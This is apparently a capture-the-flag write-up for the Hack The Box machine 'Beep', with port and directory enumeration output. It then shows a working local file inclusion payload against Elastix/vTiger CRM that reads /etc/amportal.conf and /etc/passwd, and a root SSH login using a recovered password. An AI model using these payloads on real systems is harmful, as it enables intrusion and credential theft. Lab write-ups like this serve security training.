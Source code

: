 # Beep

**Machine ip:** 10.10.10.7

## Enumeration
+ `sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.7 -e tun0 > ports`
+ `ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')`
+ `sudo nmap -Pn -sV -sC -p$ports 10.10.10.7`
```
└─$ sudo nmap -n -Pn -sV -sC -p$ports 10.10.10.7
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-08 13:18 +03
WARNING: Duplicate port number(s) specified.  Are you alert enough to be using Nmap?  Have some coffee or Jolt(tm).
Nmap scan report for 10.10.10.7
Host is up (0.11s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: PIPELINING USER RESP-CODES EXPIRE(NEVER) AUTH-RESP-CODE IMPLEMENTATION(Cyrus POP3 server v2) APOP TOP LOGIN-DELAY(0) STLS UIDL
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            790/udp   status
|_  100024  1            793/tcp   status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: CONDSTORE RENAME OK CHILDREN LISTEXT CATENATE IMAP4rev1 MAILBOX-REFERRALS LIST-SUBSCRIBED X-NETSCAPE NO STARTTLS Completed URLAUTHA0001 ANNOTATEMORE BINARY THREAD=ORDEREDSUBJECT NAMESPACE SORT RIGHTS=kxte IDLE THREAD=REFERENCES UIDPLUS QUOTA LITERAL+ IMAP4 MULTIAPPEND UNSELECT ATOMIC ID SORT=MODSEQ ACL
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
|_http-server-header: Apache/2.2.3 (CentOS)
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_ssl-date: 2024-01-08T06:21:32+00:00; +5s from scanner time.
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Elastix - Login page
793/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

Host script results:
|_clock-skew: 4s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 389.49 seconds

```

+ Navigate to `https://10.10.10.7/`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/8826721d-9e43-4f19-a2fb-28bae559dd17)

+ Directory fuzzing:
```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.10.7/ -k
```

```
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.10.7/ -k
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://10.10.10.7/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 310] [--> https://10.10.10.7/images/]
/help                 (Status: 301) [Size: 308] [--> https://10.10.10.7/help/]
/themes               (Status: 301) [Size: 310] [--> https://10.10.10.7/themes/]
/modules              (Status: 301) [Size: 311] [--> https://10.10.10.7/modules/]
/mail                 (Status: 301) [Size: 308] [--> https://10.10.10.7/mail/]
/admin                (Status: 301) [Size: 309] [--> https://10.10.10.7/admin/]
/static               (Status: 301) [Size: 310] [--> https://10.10.10.7/static/]
/lang                 (Status: 301) [Size: 308] [--> https://10.10.10.7/lang/]
/var                  (Status: 301) [Size: 307] [--> https://10.10.10.7/var/]
/panel                (Status: 301) [Size: 309] [--> https://10.10.10.7/panel/]
/libs                 (Status: 301) [Size: 308] [--> https://10.10.10.7/libs/]
/recordings           (Status: 301) [Size: 314] [--> https://10.10.10.7/recordings/]
/configs              (Status: 301) [Size: 311] [--> https://10.10.10.7/configs/]
/vtigercrm            (Status: 301) [Size: 313] [--> https://10.10.10.7/vtigercrm/]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================

```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/837bed63-aab3-4ba3-a404-325c94c17739)

+ `searchsploit elastix`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5a65eb4d-8714-475f-a9f6-9cae506cd456)

+ Navigate to `https://10.10.10.7/vtigercrm/`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/03b85b59-667c-43ca-b134-fc772537c2f8)

+ `searchsploit vtiger crm 5.1.0`
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a9470a5b-52e2-4d9b-a204-b7bc268f5ce8)




## Exploitation
### 1.Solution:
+ **Elastix 2.2.0 - 'graph.php' Local File Inclusion:** [LFI](https://www.exploit-db.com/exploits/37637)
+ Exploit: `/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`
+ Navigate to:
```
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/87307089-e37c-4265-8c39-915ac2a57034)

+ Users and passwords identified:
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/352c0043-3abf-48ff-bc04-d930166aa76f)

+ And also try:
```
view-source:https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5723c61c-8d7e-429e-862f-e94b5cbede3f)

+ **vTiger CRM 5.1.0 - Local File Inclusion:** [CVE-2012-4867](https://www.exploit-db.com/exploits/18770)
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a549bf30-1da5-4ba7-89ae-2534fbe28e5e)
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/232fb7bb-6a9f-4c13-851e-329aed2c0c3f)

+ Now there are enumerated users and passwords.

+ Login ssh using `root`:`jEhdIekWmdjE`:
+ `ssh root@10.10.10.7`
+ If meet an error, check [1](https://www.iclarified.com/85252/how-to-fix-no-matching-key-exchange-method-found-on-mac) [2](https://askubuntu.com/questions/836048/ssh-returns-no-matching-host-key-type-found-their-offer-ssh-dss)
+ Login `ssh -o KexAlgorithms=diffie-hellman-group14-sha1 -oHostKeyAlgorithms=+ssh-rsa root@10.10.10.7`
+ Get root!
![image](https://github.com/h4md153v63n/CTFs/assets/5091265/4cf306f2-3f06-4311-ba44-3fba99817893)

### 2.Solution:



# References & Alternatives:
+ https://vvmlist.github.io/#beep
+ https://0xdf.gitlab.io/2021/02/23/htb-beep.html
+ https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/linux-boxes/beep-writeup-w-o-metasploit
+ https://mertle.medium.com/write-up-htb-beep-9b4159ca3005
+ https://medium.com/@siddharth.singhal1995/hackthebox-walkthrough-beep-5-60e29ad0668a
+ https://www.siberportal.org/red-team/penetration-testing/hack-the-box-beep-cozumu/
